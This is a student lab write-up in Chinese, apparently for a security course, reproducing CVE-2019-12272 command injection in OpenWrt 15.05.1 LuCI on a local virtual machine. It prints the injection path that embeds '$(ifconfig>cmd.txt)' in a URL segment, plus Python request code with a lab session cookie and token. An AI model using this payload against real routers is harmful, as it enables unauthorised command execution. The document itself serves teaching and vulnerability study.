

# CVE-2019-12272漏洞复现

## 实验内容
- [x] 漏洞复现及利用
- [ ] 编写自动化漏洞利用代码

## 实验环境
- openwrt-15.05.1
- win10家庭版

## 实验过程
### 环境搭建
- 镜像文件转换




- 配置网络接口


- 修改openwrt15的IP地址``` vi etc/config/network ```


- 安装Luci包


### 漏洞复现
- 用管理员账号登录luci后在``` stok=…… ```后添加``` /admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt) ```触发漏洞


- 再访问``` http://192.168.56.12/cmd.txt ```获取上一步ifconfig的结果


- 通过漏洞获取id命令的结果


### 漏洞利用
- 通过开发者工具中的``` Copy ```中的``` Copy as cURL (bash) ```


- 通过第三方网站例如``` https://curl.trillworks.com/ ```将curl命令转换为python request代码


- 代码如下
```
import requests

cookies = {
    'sysauth': '050af866c8c8d270e1131305a3a72d14',
}

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36',
    'Accept': '*/*',
    'Referer': 'http://192.168.56.12/cgi-bin/luci/;stok=c3d8f76b80fad73eea72c35204c0f4c2',
    'Accept-Language': 'zh-CN,zh;q=0.9',
}

params = (
    ('status', '1'),
    ('_', '0.850048633366346'),
)

response = requests.get('http://192.168.56.12/cgi-bin/luci/;stok=c3d8f76b80fad73eea72c35204c0f4c2', headers=headers, params=params, cookies=cookies, verify=False)
```

- 由于还需要获取一些关键参数，因此还需要重新再登陆一次获取luci的curl信息


- 以同样的方式在第三方网站中得到python代码
```
import requests

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Referer': 'http://192.168.56.12/',
    'Accept-Language': 'zh-CN,zh;q=0.9',
}

response = requests.get('http://192.168.56.12/cgi-bin/luci', headers=headers, verify=False)
```

## 参考资料
- [老师课本及课堂录屏](https://c4pr1c3.github.io/cuc-mis/chap0x04/cve-2019-12272.html)